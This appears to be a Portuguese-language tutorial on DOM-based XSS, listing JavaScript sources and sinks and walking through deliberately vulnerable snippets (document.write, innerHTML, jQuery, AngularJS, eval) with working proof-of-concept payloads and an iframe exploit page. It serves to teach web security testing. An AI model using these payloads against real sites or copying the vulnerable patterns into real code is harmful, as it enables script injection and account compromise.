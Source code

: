 ## Sources
É uma propriedade do Javascript que aceita/recebe input de dados. 
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## Sink
É uma função do Javascript ou um objeto DOM. A vulnerabilidade DOM ocorre quando um input é enviado do Source para o Sink e é executado de forma insegura. 
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
element.setAttribute()
RegExp()
```
## DOM XSS 
###Exemplo
```
+ URL com o parâmetro Search 
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é armazenado na função document.write (Sink) e processado pela função window.location.search (Sink)
+ Payload: ```"><svg onload=alert(1)>```
```
<section class=search>
   <form action=/ method=GET>
        <input type=text placeholder='Search the blog' name=search>
             <button type=submit class=button>Search</button>
   </form>
</section>
<script>
   function trackSearch(query) {

//O valor inserido no parâmetro Search é armazenado na função document.wirte
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
//O valor de Search é processado pela função window.location.search
   var query = (new URLSearchParams(window.location.search)).get('search');
   if(query) {
      trackSearch(query);
   }
</script>
```
### Exemplo com innerHTML
```
+ URL com o parâmetro Search
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é capturado pelo método innerHTML e processado pela função window.location.search
+ Payload: ```<img src=1 onerror=alert(1)>```
```
<script>
   function doSearchQuery(query) {
   document.getElementById('searchMessage').innerHTML = query;
}
   var query = (new URLSearchParams(window.location.search)).get('search');
       if(query) {
               doSearchQuery(query);
}
</script>
```
### Exemplo com botão "Voltar"
```
+ URL com o parâmetro returnPath
https://exemplo.com.br/feedback?returnPath=/
```
+ jQuery usa o parâmetro attr() para processar o valor do parâmetro returnPath
```
<script>
   $(function() {
      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
 });
 </script>
```
### Exemplo com selector $() do jQuery
+ Adicione a url do site-alvo no código disponível (AQUI)[TESTE]
+ Ao funcionar, será aberto a tela de impressão da página vulnerável (onerror=print())
+ Payload
```
<html>
   <head>
      <h1>Teste DOM-XSS Selector $() jQuery</h1>
</head>
<body>
   <iframe src="https://site-alvo.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
</body>
</html>
```
### Exemplo com AngularJS atributo ng-app
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na página dentro de aspas simples ''
```
+ Payload
```
{{$on.constructor('alert(1)')()}}
```
### Exemplo com valor refletido no json
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na resposta do servidor dentro do formato json
```
+ O javascript que processa o valor inserido no parâemtro Searc usa a função eval()
+ Payload 
``` 
\"-alert(1)}//

\\"-alert(1)}//
```
